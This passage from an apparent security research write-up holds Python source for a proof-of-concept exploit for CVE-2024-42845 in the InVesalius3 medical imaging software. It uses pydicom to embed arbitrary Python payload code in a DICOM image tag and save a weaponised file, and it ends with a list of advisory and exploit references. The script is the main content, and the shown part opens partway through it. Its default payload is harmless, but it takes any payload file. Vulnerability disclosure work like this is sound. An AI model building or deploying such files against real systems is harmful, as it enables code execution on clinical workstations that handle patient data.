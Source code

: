 ```python
    try:
        dicom_dataset = pydicom.dcmread(dicom_file_path)
        if sign:
            dicom_dataset.Manufacturer = "Malicious DICOM file creator"
            dicom_dataset.InstitutionName = "Malicious DICOM file institution"
        elem =  pydicom.dataelem.DataElement(0x00200032, 'CS', malicious_tag)
        dicom_dataset[0x00200032] = elem
        print(dicom_dataset)
        dicom_dataset.save_as(outfile)
    except Exception as e:
        print(f"An error occurred: {e}")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Read a DICOM file.')
    parser.add_argument('--dicom', required=True, help='Path to the input DICOM file')
    parser.add_argument('--outfile', required=True, help='Path to the output DICOM file')
    parser.add_argument('--payload', required=False, default=b"print('Test')", help='File that contains the malicious plain python3 code')
    parser.add_argument('--signature', required=False, default=True)
    
    args = parser.parse_args()
    dicom_infile_path = args.dicom
    dicom_outfile_path = args.outfile
    print(args.signature)
    
    tmp_tag = prepare_dicom_payload(dicom_infile_path, payload=args.payload)
    if tmp_tag:
        malicious_tag = '\\'.join(tmp_tag)

        modify_dicom_field(dicom_infile_path, malicious_tag, dicom_outfile_path, sign=args.signature)
        exit(0)
    else:
        exit(1)
```

***

### References <a href="#references" id="references"></a>

* [https://www.partywave.site/show/research/Tic%20TAC%20-%20Beware%20of%20your%20scan](https://www.partywave.site/show/research/Tic%20TAC%20-%20Beware%20of%20your%20scan)
* [https://cybersecuritynews.com/tic-tac-alert/](https://cybersecuritynews.com/tic-tac-alert/)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-42845](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-42845)
* [https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845](https://github.com/alessio-romano/Invesalius3_CVE-2024-42845)
* [https://www.exploit-db.com/exploits/52076](https://www.exploit-db.com/exploits/52076)
* [https://github.com/invesalius/invesalius3](https://github.com/invesalius/invesalius3)
* [https://invesalius.github.io/about.html](https://invesalius.github.io/about.html)
* [https://www.rubomedical.com/dicom\_files/](https://www.rubomedical.com/dicom_files/)
* [https://www.microdicom.com/](https://www.microdicom.com/)
